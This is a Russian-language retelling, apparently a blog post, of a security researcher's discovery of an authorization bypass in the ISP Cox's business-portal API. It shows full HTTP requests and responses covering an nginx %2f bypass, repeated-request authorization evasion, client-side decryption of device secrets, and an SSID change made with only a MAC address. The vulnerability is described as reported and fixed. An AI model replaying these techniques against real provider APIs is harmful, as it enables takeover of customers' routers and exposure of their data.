


# Введение
Расскажу об одной истории с "взломом" довольно крупного американского интренет провайдера COX. Слово взлом взято в кавычки, потому что в этой истории нет какого-то интересного и сложного эксплойта системы, а сам взлом использует по сути "открытое окно" в системе, но интересно в ней то, как это открытое окно было обнаружено. Более подробно с этой историей можно ознакомится по [ссылке](https://samcurry.net/hacking-millions-of-modems)

# Предыстория

Однажды Сэм (главный герой истории) хотел протестировать какую-то уязвимость, в ходе тестирования которой требовалось поднять удалённый сервер. Сэм создал примитивный http сервер в AWS (Amazon Wev Service) и со своего домашнего компьютера отправил на него примитивный http запрос: `curl "http://54.156.88.125:8000/test123"`
После этого он увидел в логах сервера следующую строку, подтверждающую успех: `98.161.24.100 - [16:32:12] "GET /test123 HTTP/1.1"`, но спустя несколько секунд в логах сервера появилась ещё одна строка c точно таким же запросом: `159.65.76.209 - [16:32:22] "GET /test123 HTTP/1.1"`. Несмотря на то, что Сэм никак не шифровал свои запросы, отправка идентичного запроса с постороннего ip, может значить лишь то, что кто-то на пути от его дома до сервера AWS прочитал его запрос и отправил такой же. В этот момент история могла бы и закончится, если бы Сэм просто проигнорировал эту аномалию, но он решил копнуть глубже. Сначала он подумал, что взломан его компьютер и попробовал отправить запрос с телефона, подключённого к домашней сети - на сервер попал ещё один лишний запрос от того-же `159.65.76.209`. Таким образом под подозрением остались AWS, его роутер и сеть провайдера (или иные промежуточные точки между провайдером и AWS, но тогда такое поведение могло бы не повторятся всегда из-за разных маршрутов запросов в сети). Для того чтобы проверить хоть и маловероятную гипотезу про AWS Сэм поднял сервер в аналоге AWS и аномалия повторилась. Далее он решил проверить сеть провайдера узнав больше об ip.

# 159.65.76.209

Для начала он решил узнать владельца ip адреса (такое можно провернуть на [подобных сайтах](https://dnschecker.org/ip-whois-lookup.php)) и увидел, что пренадлежит он компании DigitalOcean, что не является частью его провайдера Cox. Исходя из этого можно сделать вывод, что скорее всего взломан именно его домашний роутер.
Затем он скинул ip своим друзьям из области кибер безопасности получив в ответ проверку ip на [VirusTotal](https://www.virustotal.com/gui/ip-address/), который даёт посмотреть набор доменов, которые соответствовали этому ip в dns. Большая часть доменов были фишинговыми (2 домена похожих на почтовые сервера, 4 нацеленные на фишинг isglatam, 2 "региональных" сайта адидаса, решивших поизучать питон):



# Сдача взломанного роутера

После всего этого он решил пойти к провайдеру и показать им этот роутер, а так же получить новый не взломанный. Но проблема была в том, что этот роутер не являлся собственностью Сэма, а был арендован у этого провайдера из-за чего, получить новый он мог только сдав старый, а следовательно потеряв возможность покапатся в его ПО и поискать следы взлома. Увы ему так и не разрешили оставить себе старый роутер, но получив новый аномалия изчезла, что подтверждает гипотезу про взломанный роутер, но так как взломонный роутер был уже в руках провайдера, оставалось лишь смирится с произошедшим.

# Спустя три года

Находясь в отпуске Сэм рассказал эту историю своим друзьям (тоже из области кибер безопасности), которым стало настолько интересно, что они решили провести собственное расследование "по приколу". Имея больше опыта в области чем Cэм они обратили внимание на первые два домена, которые были похожи на почтовые сервера и сделали преаположение, что они были сгенерированы. Чтобы проверить это, они нашли адрес `mx12.limit742921.tokyo` в поддомене `mx12` и выполнили поиск доменов в `mx12`, которые когда-либо определялись в найденный ip. Результатом было около 1000 доменов следующих формату `[слово][6 цифр].[домен верхнего уровня]` Исходя из этого они сделали преположение, что эти домены были использованы для ротации C&C сервера злоумышленника (сервер который взаимодействует со взломанными устройствами) и что именно такой сервер мог пораждать аномалию трёх годичной давности. После этого они начали думать, как взломали роутер Сэма. Сначала они поискали публично извесные уязвивомости его модели, но ничего не нашли, из-за чего сделали преположение, что взломали не сам роутер, а что-то что с ним взаимодействовало.

# Служба поддержки

Через некоторое время его друг (который тоже пользовался услугами провайдера Cox), попросил помочь ему с перездом в процессе чего надо было настроить роутер для работы на новой локации. Для этого Сэм позвонил в службу поддержки Cox и попросил их обновить свою систему, чтобы роутер заработал на новой локации, после чего поддержка удалённо обновила настройки этого роутера. Это заинтересовало Сэма и он уточнил, что провайдер может удалённо даже изменить пароль от Wifi. Из этого следует, что скорее всего у службы поддержки есть какой-то внутренний сайт для настройки роутеров клиентов, а также API реализующее функциональность этого сайта. Таким образом возможность того, что роутер взломали используя инфраструктуру провайдера становилась всё более и более вероятной.

# Открытое окно

Чтобы проверить эту гипотезу, он решил зайти на бизнес портал Cox, который позволял бизнес пользователям Cox удалённо настраивать свои роутеры. Так как бизнес аккаунта у Сэма не было (как и у потенциального злоумышленника), он нашёл основной файл портала, запарсил его и вытащил оттуда все http маршруты, из которых около 100 выглядели как-то так: 

```
/api/cbma/voicemail/services/voicemail/inbox/transcribeMessage/
/api/cbma/profile/services/profile/userroles/
/api/cbma/accountequipment/services/accountequipment/equipments/eligibleRebootDevice
/api/cbma/accountequipment/services/accountequipment/casedetail
/api/cbma/user/identity/services/useridentity/user/verifyContact
/api/cbma/user/identity/services/useridentity/user/contact/validate
...
```

Все эти маршруты были так или иначе связаны с настройками роутеров, поэтому он решил проверить является ли сам сервер с сайтом, точкой реализующей эти маршруты или только прокисрует их какому-то иному серверу. Для этого он отправил несколько запросов:

```
GET /api/anything_else/example HTTP/1.1
Host: myaccount-business.cox.com

HTTP/1.1 301 Moved Permanently
Location: https://myaccount-business.cox.com/cbma/api/anything_else/example
```
```
GET /api/cbma/example HTTP/1.1
Host: myaccount-business.cox.com

HTTP/1.1 500 Internal Server Error
Server: nginx
```

Первый запрос не начинающийся с `/api/cbma` отсылал на запрос `/api/cbma`, а второй начинающийся с `/api/cbma` выдавал ошибку с ключевым словом `nginx`, который чаще всего используется как раз для проксирования запросов. Из этого можно сделать вывод, что сервер выдающий эти ответы отвечает только за хранение и отправку frontend файлов, а не за взаимодействие с роутерами. После этого он отправил запрос на регистрацию: 

```
POST /api/cbma/userauthorization/services/profile/validate/v1/email HTTP/1.1
Host: myaccount-business.cox.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: application/json, text/plain, */*
Content-Type: application/json
Clientid: cbmauser
Apikey: 5d228662-aaa1-4a18-be1c-fb84db78cf13
Cb_session: unauthenticateduser
Authorization: Bearer undefined
Ma_transaction_id: a85dc5e0-bd9d-4f0d-b4ae-4e284351e4b4
Content-Length: 28
Connection: close

{"email":"test@example.com"}
```

И получил следующий ответ:
```
HTTP/1.1 200 OK
Content-Type: application/json
Content-Length: 126

{
  "message": "Success",
  "id": "test@example.com"
}
```

Форма ответа была похожа на ответ фрэймворка `sping`, после чего он решил заменить в запросе `POST` на `GET` и посмотреть на форму ошибки, что подтвердило его догадку.

```
HTTP/1.1 500 Internal Server Error
Content-type: application/json

{
  "timestamp": "2024-04-12T08:57:14.384+00:00",
  "status": 500,
  "error": "Internal Server Error",
  "path": "/services/profile/validate/v1/email"
}
```

Затем зная как устроены проекты на `spring`, он начал искать документацию по известным маршрутам:

```
❌ GET /api/cbma/userauthorization/services/profile/validate/v1/email/swagger-ui/index.html
❌ GET /api/cbma/userauthorization/services/profile/validate/v1/swagger-ui/index.html
❌ GET /api/cbma/userauthorization/services/profile/validate/swagger-ui/index.html
❌ GET /api/cbma/userauthorization/services/profile/swagger-ui/index.html
❌ GET /api/cbma/userauthorization/services/swagger-ui/index.html
✅ GET /api/cbma/userauthorization/swagger-ui/index.html
```

В итоге получилось получить страницу `index.html` для `swagger-ui` (страница на которой находятся все маршруты API и позволяющая в браузере их вызывать). Он попробовал загрузить страницу в браузере но она так и не загрузилась. Он проверил трафик и увидел следующее: 

```
GET /api/cbma/ticket/services/swagger-ui/swagger-initializer.js HTTP/1.1
Location: /cbma/api/cbma/userauthorization/services/swagger-ui/swagger-initializer.js
...
GET /cbma/api/cbma/ticket/services/swagger-ui/swagger-initializer.js HTTP/1.1
Location: /cbma/cbma/api/cbma/userauthorization/services/swagger-ui/swagger-initializer.js
```
Произошёл бесконечный цикл редеректов. Из-за этого он слелал предположение, что в `nginx` выставлено правило на тип файлов, приводящее к тому, что на запрос отвечает не сервер за `nginx`, а сам сервер с `nginx`. Отправив такой же запрос, но заменив `.js` на `.anythongElse` он получил ответ, подтвердив догадку: 

```
HTTP/1.1 500 Internal Server Error
Server: nginx
```

Теперь надо как-то обойти правило на формат файла в nginx, при этом не поломав запрос на сервере за nginx. Для этого Сем забрутфорсил добавление в конец запроса символов от `%00` до `%FF`. В таком виде можно кодировать любые символы в ссылке, включая зарезервированнные в синтаксисе. В итогу на символе `%2f`(кодирует `/`) произошёл успех:

```
GET /api/cbma/userauthorization/services/swagger-ui/swagger-initializer.js%2f HTTP/1.1
Host: myaccount-business.cox.com

HTTP/2 200 OK
Content-Type: application/javascript

window.onload = function() { window.ui = SwaggerUIBundle({ url: "https://petstore.swagger.io/v2/swagger.json", dom_id: '#swagger-ui', deepLinking: true, presets: [ SwaggerUIBundle.presets.apis, SwaggerUIStandalonePreset ], plugins: [ SwaggerUIBundle.plugins.DownloadUrl ], layout: "StandaloneLayout" , "configUrl" : "/services/v3/api-docs/swagger-config", "validatorUrl" : "" }); //</editor-fold> };

```

Добавив в браузере правило на добавление `%2f` в конец запросов он смог зайти на страницу `swagger-ui`:



Таким же методом от подгрузил все остальные `swagger-ui` страницы получив в итоге список из около 700 API маршрутов. Из них он выбрал те которые наиболее похожи на что-то взаимодействующее с роутерами пользователя и поотправлял на них get запросы, в результате чего половина отвечала `200 OK`, а оставшиеся ошибкой авторизации. Он пролистал успешные ответы и увидел один интересный, а именно profilesearch:

```
GET /api/cbma/profile/services/profile/profilesearch/ HTTP/1.1
Host: myaccount-business.cox.com
Clientid: cbmauser
Apikey: 5d228662-aaa1-4a18-be1c-fb84db78cf13
Cb_session: unauthenticateduser
Authorization: Bearer undefined
```

```
HTTP/1.1 200 OK
Content-type: application/json

{
  "message": "Success",
  "profile": {
    "numberofRecords": "0 hits",
    "searchList": []
  }
}
```

После этого он решил добавить в конец запроса test, чтобы поискать что-то с ключевым словом test, но в ответ получил ошибку авторизации, что было довольно странно. Возможно на сервере требует авторизацию только не пустой поиск. Затем он ещё раз отправил запрос с пустым поиском и получил опять ошибку авторизации. Не поняв что вообще происходит, он решил на всякий случай ещё раз отправить пустой поиск и на этот раз получил исходный ответ `200 OK`. Раз уж поведение сервера такое не предсказуемое, то может быть если достаточно много раз отправить не пустой поисковый запрос, то рано или поздно прийдёт положительный ответ. После чего он 2-3 минуты слал поисковый запрос `cox` и получил следующий ответ:

```
{
  "message": "Success",
  "profile": {
    "numberofRecords": "10000+ hits",
    "searchList": [
      {
        "value": "COX REDACTED",
        "profileGuid": "cbbccdae-b1ab-4e8c-9cec-e20c425205a1"
      },
      {
        "value": "Cox Communications SIP Trunk REDACTED",
        "profileGuid": "bc2a49c7-0c3f-4cab-9133-de7993cb1c7d"
      },
      {
        "value": "cox test account ds1/REDACTED",
        "profileGuid": "74551032-e703-46a2-a252-dc75d6daeedc"
      }
    ]
  }
}
```

Это выглядело как настоящий список бизнес пользователей Cox, который был получен простой многократной отправкой запроса на прокси. Теперь можно посмотреть какие ещё из 700 маршрутов можно использовать таким же методом, а именно можно ли таким методом получить доступ к роутеру пользователей. Для начала он нашёл запрос, который требует mac адрес как параметр:

```
GET /api/cbma/accountequipment/services/accountequipment/ipAddress?macAddress=f80c58bbcb90 HTTP/1.1
Host: myaccount-business.cox.com
Clientid: cbmauser
Apikey: 5d228662-aaa1-4a18-be1c-fb84db78cf13
Cb_session: unauthenticateduser
Authorization: Bearer undefined
```

```
HTTP/1.1 200 OK
Content-type: application/json

{
  "message": "Success",
  "ipv4": "98.165.155.8"
}
```

Получив в ответ свой ip адрес, Сэм решил попробовать по id пользователя (получаемые при поисковом запросе) найти список его устройств с mac адресами, на примере своего id. Опять успех:


```
GET /api/cbma/accountequipment/services/accountequipment/v1/equipments/435008132203 HTTP/1.1
Host: myaccount-business.cox.com
Clientid: cbmauser
Apikey: 5d228662-aaa1-4a18-be1c-fb84db78cf13
Cb_session: unauthenticateduser
Authorization: Bearer undefined
```

```
HTTP/1.1 200 OK
Content-type: application/json

{
  "accountEquipmentList": [
    {
      "equipmentCategory": "Internet",
      "equipmentModelMake": "NOKIA G-010G-A",
      "equipmentName": "NOKIA G-010G-A",
      "equipmentType": "Nokia ONT",
      "itemModelMake": "NOKIA",
      "itemModelNumber": "G-010G-A",
      "itemNumber": "DAL10GB",
      "macAddress": "f8:0c:58:bb:cb:92",
      "portList": [
        {
          "address": "F80C58BBCB92",
          "portNumber": "1",
          "portType": "ONT_ALU",
          "qualityAssuranceDate": "20220121",
          "serviceCategoryDescription": "Data"
        }
      ],
      "serialNumber": "ALCLEB313C84"
    },
    {
      "equipmentCategory": "Voice",
      "equipmentModelMake": "CISCO DPQ3212",
      "equipmentName": "CISCO DPQ3212",
      "equipmentType": "Cable Modem",
      "itemModelMake": "CISCO",
      "itemModelNumber": "DPQ3212",
      "itemNumber": "DSA321N",
      "macAddress": "e4:48:c7:0d:9a:71",
      "portList": [
        {
          "address": "E448C70D9A71",
          "portNumber": "1",
          "portType": "DATA_D3",
          "qualityAssuranceDate": "20111229",
          "serviceCategoryDescription": "Unknown"
        },
        {
          "address": "E448C70D9A75",
          "portNumber": "2",
          "portType": "TELEPHONY",
          "qualityAssuranceDate": "20111229",
          "serviceCategoryCode": "T",
          "serviceCategoryDescription": "Telephone"
        }
      ],
      "serialNumber": "240880144"
    },
    {
      "equipmentCategory": "Television",
      "equipmentModelMake": "Cox Business TV (Contour 1)",
      "equipmentName": "Cox Business TV (Contour 1)",
      "equipmentType": "Cable Receiver",
      "itemModelMake": "CISCO",
      "itemModelNumber": "650",
      "itemNumber": "GSX9865",
      "macAddress": "50:39:55:da:93:05",
      "portList": [
        {
          "address": "44E08EBB6DBC",
          "portNumber": "1",
          "portType": "CHDDVRX1",
          "qualityAssuranceDate": "20131108",
          "serviceCategoryDescription": "Cable"
        }
      ],
      "serialNumber": "SACDRVKQN"
    }
  ]
}
```

Теперь осталось главное, попробовать этим методом изменить настройки своего роутера. Посмотрев на методы для управления роутерами их объединял один параметр `encryptedValue`. Прошерстив javascript код страницы, он нашёл функции отвечающие за шифровку и дешифровку этого параметра. Теперь надо было научится вызывать эти функции, для чего он пошёл искать на сайте пользователя где используется эта функция и увидел, что пользолвательский pin код шифруется этими функциями. Затем поставив в браузерном дебагере точка остановки перед вызовом этой функции, он взял encryptedValue из своего запроса на изменение пин кода и передал его в эту функцию: 

```
t.cbHelper.decryptWithSaltandPadding("OGEzMjNmNjFhOTk2MGI2OTM0NzAzNTkzODZkOGYxODI6OjhhNzU1NTNlMDAzOTlhNWQ5Zjk5ZTYzMzM3M2RiYWUzOjova3paY1orSjRGR0YwWGFvRkhwWHZRPT0=")
"8042"
```

Теперь надо каким-то образом получить `encryptedValue` роуетера. Затем он взял аккаунт друг у кого был бизнесс аккаунт Cox с роутерами и нашёл `encryptedValue` роутера при авторизации после чего расшифровал его по тому же методу:

```
t.cbHelper.decryptWithSaltandPadding("OGEzMjNmNjFhOTk2MGI2OTM0NzAzNTkzODZkOGYxODI6OjhhNzU1NTNlMDAzOTlhNWQ5Zjk5ZTYzMzM3M2RiYWUzOjpiYk1SNGQybzFLZHhRQ1VQNnF2TWl1QlZ0NEp6WVUyckJGMXF5T0dYTVlaNWdjZkhISTZnUFppdjM3dmtRSUcxclNkMC9WNmV2WFE1eko0VnFZUnFodz09")
541051614702;DTC4131;333415591;1;f4:c1:14:70:4d:ac;Internet
```
Из этого следует что секрет состоит из следующих параметров:

```
541051614702 = Cox Account Number
DTC4131 = Device Name
333415592 = Device ID
1 = Unknown
f4:c1:14:70:4d:ac = MAC address
Internet = Label
```

Получить все эти параметры было бы весьма проблематично, но Сэм решил "по приколу" попробовать все параметры секрета выбрать случайными и оставить верным только требуемый mac адрес роутера, на случай если остальные параметры не проверяются при вызове маршрутов на управление роутером. И да, оказалось, что достаточно лишь mac адреса, для вызова этих маршрутов. Чтобы проверить работаспособность метода, он отправил следующий запрос, который должен был изменить SSID (имя сети) его сети на домашнем роутере:

```
POST /api/cbma/accountequipment/services/accountequipment/gatewaydevice/wifisettings HTTP/1.1
Host: myaccount-business.cox.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: application/json, text/plain, */*
Clientid: cbmauser
Apikey: 5d228662-aaa1-4a18-be1c-fb84db78cf13
Cb_session: unauthenticateduser
Authorization: Bearer undefined
Ma_transaction_id: 56583255-1cf3-41aa-9600-3d5585152e87
Connection: close
Content-Type: application/json
Content-Length: 431

{
  "wifiSettings": {
    "customerWifiSsid24": "Curry"
  },
  "additionalProperties": {
    "customerWifiSsid24": [
      "Curry"
    ]
  },
  "encryptedValue": "T0dFek1qTm1OakZoT1RrMk1HSTJPVE0wTnpBek5Ua3pPRFprT0dZeE9ESTZPamhoTnpVMU5UTmxNREF6T1RsaE5XUTVaams1WlRZek16TTNNMlJpWVdVek9qcENVMlp1TjJ0blVsTkNlR1ZhZDJsd05qZGhjWFo0TTJsaVJHSkhlU3N2TUhWVWFYZzJWVTByYzNsT2RYWklMek16VjJ4VldFYzJTMWx5VEVNMVRuSkxOVVF3VFhFek9UVmlUR2RGVFd4RUt6aGFUMnhoZHowOQ=="
}
```

```
HTTP/1.1 200 OK
Server: nginx

{
  "message": "Success"
}
```

В ответ он получил `200 OK` и через некоторое время его роутер перезагрузился с новым SSID... Это означало, что таким методом можно получить доступ к управлению любым роутером в сети провайдера Cox, которая на минуточки насчитывает 6.5 миллионов клиентов. После этого Сэм связался с провайдером, рассказал им про уязвимость после чего в течении 6 часов её устранили

# Итог

Таким образом казалось бы незначительная строчка в логах, тестового сервера и череда удачно выбранных гипотез привели к обнаружению огромнейшей уязвимости в сети большого провайдера, позволяющая управлять любым роутером в их сети.